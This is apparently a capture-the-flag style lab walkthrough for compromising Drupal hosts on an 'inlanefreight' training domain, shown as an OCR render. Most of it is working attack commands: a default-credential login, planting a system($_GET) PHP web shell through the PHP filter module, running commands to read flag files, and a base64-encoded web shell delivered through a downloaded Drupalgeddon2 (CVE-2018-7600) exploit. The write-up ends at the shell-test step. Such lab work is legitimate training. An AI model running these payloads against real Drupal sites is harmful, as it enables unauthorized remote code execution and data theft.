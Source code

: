 ```bash
curl -s http://drupal-dev.inlanefreight.local/CHANGELOG.txt | head -n 3
curl -s http://drupal.inlanefreight.local/CHANGELOG.txt | head -n 3
```

#### Step 2: Method 1 - PHP Filter Module (drupal-qa)

**Vulnerability Assessment:**
```bash
# Target: drupal-qa.inlanefreight.local
# Expected: Drupal 7.x with potential admin access

# Attempt default credential access
curl -c cookies.txt -d "name=admin&pass=admin&form_id=user_login" \
  "http://drupal-qa.inlanefreight.local/user/login"

# Verify admin access
curl -b cookies.txt "http://drupal-qa.inlanefreight.local/admin" | grep -i "administration"
```

**PHP Filter Exploitation:**
```bash
# Navigate to: /admin/modules
# Enable "PHP filter" module
# Navigate to: /node/add/page
# Create Basic page with PHP payload

# PHP payload for testing:
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>

# Test RCE after creating node (assuming node/3):
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id"

# Flag discovery:
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=find+/var/www+-name+'flag*'"
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=cat+/var/www/drupal.inlanefreight.local/flag.txt"
```

#### Step 3: Method 2 - Drupalgeddon 2 (drupal-dev)

**CVE-2018-7600 Exploitation:**
```bash
# Target: drupal-dev.inlanefreight.local
# Unauthenticated RCE vulnerability

# Download exploit script
wget https://raw.githubusercontent.com/a2u/CVE-2018-7600/master/drupalgeddon2.py

# Create custom PHP shell
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
# Result: PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K

# Modify exploit script payload section:
# Replace echo command with:
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee shell.php

# Execute modified exploit
python3 drupalgeddon2.py
# Enter URL: http://drupal-dev.inlanefreight.local/

# Test RCE via uploaded shell
```